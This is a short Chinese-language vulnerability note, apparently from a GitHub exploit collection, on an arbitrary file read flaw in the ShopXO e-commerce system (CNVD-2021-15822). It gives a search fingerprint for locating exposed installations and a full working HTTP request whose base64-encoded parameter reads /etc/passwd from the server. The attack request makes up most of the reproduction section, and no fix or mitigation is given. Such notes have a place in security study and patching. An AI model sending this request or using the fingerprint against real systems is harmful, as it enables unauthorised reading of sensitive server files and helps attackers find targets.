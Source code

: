 # 

# ShopXO download 任意文件读取漏洞 CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
ShopXO
```

## 网络测绘

```
app="ShopXO企业级B2C电商系统提供商"
```

## 漏洞复现

商城主页如下

![](./images/202202170858707.png)

发送漏洞请求包

```plain
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![](./images/202202170859076.png)
